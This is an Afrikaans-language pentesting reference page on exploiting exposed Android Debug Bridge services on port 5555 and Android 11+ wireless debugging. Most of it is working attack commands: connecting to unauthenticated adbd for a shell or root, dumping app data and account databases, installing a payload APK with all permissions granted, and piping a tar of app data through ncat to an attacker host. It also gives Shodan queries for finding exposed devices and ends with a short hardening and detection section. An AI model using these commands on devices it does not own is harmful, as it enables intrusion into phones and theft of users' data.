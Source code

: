 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Basiese Inligting

Van [die docs](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb) is 'n opdraglyn hulpmiddel om te kommunikeer met Android-gebaseerde toestelle en emulators. Tipiese aksies sluit in die installering van pakkette, foutopsporing, en die verkryging van 'n interaktiewe Unix-skaal op die toestel.

- Historiese standaard TCP-poort: 5555 (klassieke "adb tcpip" modus).
- Moderne Draadlose foutopsporing (Android 11+) gebruik TLS-paarvorming en mDNS-diensontdekking. Die verbindingspoort is dinamies en word ontdek via mDNS; dit mag nie 5555 wees nie. Paarvorming word gedoen met adb pair host:port gevolg deur adb connect. Sien die notas hieronder vir offensiewe implikasies.

Voorbeeld nmap vingerafdruk:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Verbind

As jy ADB blootgestel en bereikbaar vind, probeer om vinnig te verbind en te tel:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- As die toestel ADB-outeentifikasie afdwing (ro.adb.secure=1), sal jy vooraf geoutoriseer moet wees (USB RSA auth) of Android 11+ Draadlose foutopsporing paarvorming gebruik (wat 'n eenmalige kode vereis wat op die toestel vertoon word).
- Sommige verskafferbeelde, ingenieurs-/gebruikersdebug-bou, emulators, TV's, STB's en ontwikkelingskits stel adbd bloot sonder outentifikasie of met adbd wat as root loop. In daardie gevalle sal jy tipies direk in 'n shell of root shell beland.

Vir 'n algemene ADB-opdragverwysing, sien:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## Vinnige Post-Exploitatie

Sodra jy 'n shell het, valideer voorregte en SELinux-konteks:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### Lys en vang data

- Lys derdeparty-apps en paaie:
```bash
pm list packages -3
pm path <pkg>
```
- As jy root het (adb root of su werk), kan jy direk toegang tot /data kry. Indien nie, verkies run-as vir debuggable apps:
```bash
# Sonder root, vir 'n debuggable app
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# Met root
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- Nuttige stelseldatastukke (root benodig):
- /data/system/users/0/accounts.db en verwante AccountManager data
- /data/misc/wifi/ (netwerk konfigurasies/sleutels op ouer weergawes)
- App-spesifieke SQLite DB's en shared_prefs onder /data/data/<pkg>

Jy kan dit gebruik om sensitiewe inligting te verkry (bv. app geheime). Vir notas oor Chrome data oorwegings, sien die kwessie waarna verwys word [hier](https://github.com/carlospolop/hacktricks/issues/274).

### Kode-uitvoering en payload aflewering

- Installeer en outomaties runtime toestemmings toeken:
```bash
adb install -r -g payload.apk         # -g gee alle runtime perms wat in manifest verklaar is
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- Begin aktiwiteite/dienste/uitsendings direk:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### Poort forwarding en pivotering

Selfs sonder root, kan adb plaaslike poorte na toestelpoorte en omgekeerd forward. Dit is nuttig om toegang te verkry tot dienste wat plaaslik op die toestel gebind is of om aanvaller dienste aan die toestel bloot te stel.

- Forward host->toestel (toegang tot 'n toestel-lokale diens vanaf jou gasheer):
```bash
adb forward tcp:2222 tcp:22       # As toestel SSH loop (bv. Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # Blootstel app se plaaslike debug bediener
```
- Omgekeerde toestel->gasheer (laat die toestel 'n diens op jou gasheer bereik):
```bash
adb reverse tcp:1080 tcp:1080     # Toestel apps kan nou gasheer:1080 as 127.0.0.1:1080 bereik
```
- Lêer eksfiltrasie oor sokke (geen sdcard skrywe):
```bash
# Op gasheer: luister
ncat -lvp 9000 > dump.tar
# Op toestel: stuur gids as tar (root of run-as soos toepaslik)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## Draadlose Debugging (Android 11+)

Moderne Android implementeer TLS-beskermde draadlose debugging met toestel-kant paar en mDNS ontdekking:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
Notas
- Poorte is dinamies; moenie aanvaar 5555 nie. mDNS-diensname lyk soos:
- _adb-tls-pairing._tcp (pareer)
- _adb-tls-connect._tcp (gepareerde verbinding)
- _adb._tcp (oudmodies/plat)
- As mDNS gefiltreer is, kan klassieke USB-geassisteerde aktivering steeds op sommige weergawes werk: `adb tcpip 5555` dan `adb connect <ip>:5555` (tot herlaai).

Aanvallende implikasies: as jy met die toestel se UI kan interaksie hê (bv. fisiese toegang of mobiele MDM-misconfigurasie) om Draadlose foutopsporing te aktiveer en die pareerkode te sien, kan jy 'n langleefbare geparkeerde ADB-kanaal sonder 'n kabel tot stand bring. Sommige OEM's stel ADB oor TCP in ingenieurs-/ontwikkelingsbeelde beskikbaar sonder pareer—kontroleer altyd.

## Versterking / Opsporing

Verdedigers moet aanvaar dat enige bereikbare adbd (TCP) 'n kritieke risiko is.

- Deaktiveer ADB en Draadlose foutopsporing wanneer dit nie nodig is nie. Herroep USB-foutopsporing-oute in Ontwikkelaar opsies.
- Verseker dat netwerkbeleid inkomende TCP/5555 en mDNS-gebaseerde ADB-ontdekking op onbetroubare segmente blokkeer.
- Op toestelle onder jou beheer:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # deaktiveer TCP-luister (of gebruik: adb usb)
stop adbd; start adbd             # herbegin daemon
```
- Monitor vir mDNS-rekords `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` op korporatiewe netwerke en waarskuwings vir onverwagte 5555 luisteraars.
- Inventariseer vir onveilige weergawes: `getprop ro.debuggable`, `ro.build.type`, en `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## Verwysings

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB oor Wi‑Fi, pareer en mDNS-diensname: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
